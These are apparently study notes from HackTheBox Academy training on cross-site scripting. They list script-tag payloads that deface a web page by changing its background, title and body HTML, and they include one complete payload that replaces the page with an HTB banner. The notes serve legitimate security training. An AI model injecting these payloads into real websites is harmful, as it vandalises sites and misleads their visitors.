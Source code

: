 #### Defacing

HTML elements:
- document.body.style.background
	- <script>document.body.style.background = "#141d2b"</script>
- document.body.background
	- <script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
- document.title
	- <script>document.title = 'HackTheBox Academy'</script>
- DOM.innerHTML
	- document.getElementById("todo").innerHTML = "New Text"
	- $("#todo").html('New Text');
	- document.getElementsByTagName('body')[0].innerHTML = "New Text"

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

